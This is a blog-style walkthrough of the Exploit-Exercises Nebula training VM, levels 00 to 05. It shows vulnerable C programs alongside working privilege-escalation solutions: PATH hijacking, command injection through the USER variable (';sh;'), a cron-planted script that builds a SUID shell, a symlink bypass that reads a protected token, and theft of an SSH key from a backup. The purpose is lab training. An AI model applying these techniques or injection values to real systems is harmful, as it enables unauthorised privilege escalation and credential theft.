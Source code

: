 ```yaml
---
layout: post
title: "Exploit-Exercises: Nebula (00-05)"
categories: vulnhub exploit-exercises
---
```

Image: [Exploit-Exercises: Nebula (v5)](https://www.vulnhub.com/entry/exploit-exercises-nebula-v5,31/)

Because it was not possible to log in via ssh, we generated the host key:

```
ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
```

# Level00

```
level00@nebula:~$ find / \( -perm -4000 \) 2>/dev/null 
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
[ .. SNIP .. ]
```

We found a suspicious file on the first line, after executing, we obtained flag.
```
level00@nebula:~$ id
uid=1001(level00) gid=1001(level00) groups=1001(level00)
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level01
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

Solution:
```
level01@nebula:~$ export PATH=.:$PATH
level01@nebula:~$ echo 'sh' > echo
level01@nebula:~$ chmod +x ./echo
level01@nebula:~$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:~$ /home/flag01/flag01
sh-4.2$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# Level02
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Solution:
```
level02@nebula:~$ export USER=';sh;'
level02@nebula:~$ /home/flag02/flag02 
about to call system("/bin/echo ;sh; is cool")

sh-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level03
There is a crontab entry that is called every couple of minutes.

Because the /tmp is mounted with nosuid option, we use home directory to store suid binary:
```
level03@nebula:~$ mount | grep nosuid
proc on /proc type proc (rw,noexec,nosuid,nodev)
sysfs on /sys type sysfs (rw,noexec,nosuid,nodev)
devpts on /dev/pts type devpts (rw,noexec,nosuid,gid=5,mode=0620)
tmpfs on /run type tmpfs (rw,noexec,nosuid,size=10%,mode=0755)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
none on /run/lock type tmpfs (rw,noexec,nosuid,nodev,size=5242880)
none on /run/shm type tmpfs (rw,nosuid,nodev)
vmware-vmblock on /run/vmblock-fuse type fuse.vmware-vmblock (rw,nosuid,nodev,default_permissions,allow_other)
```

The file invoked by cron is here:

```bash
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
``` 

Our code to obtain suid shell:
```bash
level03@nebula:~$ cd /home/flag03/writable.d/

level03@nebula:/home/flag03/writable.d$ echo '#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
   setreuid(geteuid(),geteuid());
   execve("/bin/sh", NULL, NULL);

   return 0;
}
' > /tmp/run.c


level03@nebula:/home/flag03/writable.d$ echo '#!/bin/bash
gcc /tmp/run.c -o /home/flag03/x
chmod +s /home/flag03/x
' > run.sh
level03@nebula:/home/flag03/writable.d$ chmod +x run.sh
```

After a little waiting, the suid binary is created:
```bash
level03@nebula:/home/flag03/writable.d$ ../x 
bash-4.2$ getflag 
You have successfully executed getflag on a target account
```

# Level04
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

We cannot read the token file, but symlink technique is sufficient:
```
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 
./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token 
You may not access 'token'
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/x
level04@nebula:/home/flag04$ ./flag04 /tmp/x 
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su - flag04
Password: 
flag04@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

# Level05
In /home/flag05 we can find the backup file with ssh private key.

```
level05@nebula:/home/flag05$ tar xvzf .backup/backup-19072011.tgz  -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys

level05@nebula:/home/flag05$ ssh -i /tmp/.ssh/id_rsa flag05@0
flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

